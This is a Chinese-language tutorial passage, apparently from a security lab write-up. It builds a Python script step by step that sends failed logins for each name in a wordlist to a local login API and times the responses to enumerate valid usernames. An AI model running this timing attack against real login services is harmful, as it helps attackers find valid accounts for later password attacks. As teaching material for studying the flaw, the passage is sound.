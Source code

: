 ***-*** **请求:**
请求库是用 Python 制作 HTTP 请求的事实上的标准。它将发出请求的复杂性抽象在一个漂亮、简单的 API 后面，以便您可以专注于与服务进行交互并在应用程序中使用数据
**-****time:** Python 时间模块提供了许多用代码表示时间的方式，如对象、数字和字符串。它还提供了除了表示时间之外的功能，比如代码执行过程中的等待和衡量你的代码效率 **-JSON:** JSON 模块主要用于将上面的 python 字典转换成可以写入文件的 JSON 字符串。虽然 JSON 模块会将字符串转换为 Python 数据类型，但通常 JSON 函数用于直接从 JSON 文件中读取和写入。

*   现在我们开始编写脚本。首先，我们需要添加网站 URL

```
URL = "[http://localhost:8081/api/user/login](http://localhost:8081/api/user/login)"
```

*   现在我们添加将要尝试的用户名列表(带有一个 read 参数)

```
USERNAME_FILE = open("names.txt", "r")
```

*   现在我们将用户名添加到一个数组中

```
usernames = []
for line in USERNAME_FILE:  # Read in usernames from the wordlist
    usernames.append(line.replace("\n", ""))
```

*   制作一个字典来添加计时
    (这就是为什么使用 JSON 库)

```
timings = dict()
```

*   向 API 发出 HTTP 请求

```
def doLogin(user):  # Make the HTTP request to the API
    creds = {"username": user, "password": "invalidPassword!"}
    response = r.post(URL, json=creds)
    if response.status_code != 200:  # This means there was an API error
        print("Error:", response.status_code)

print("Starting POST Requests")
```

*   为列表中的每个用户执行一个请求，并检查需要多长时间

```
for user in usernames:
    # Do a request for every user in the list, and time how long it takes
    startTime = time.time()
    doLogin(user)
    endTime = time.time()
    # record the time for this user along with the username
    timings[user] = endTime - startTime
    # Wait to avoid DoSing the server which causes unreliable results
    time.sleep(0.01)print("Finished POST requests")
```
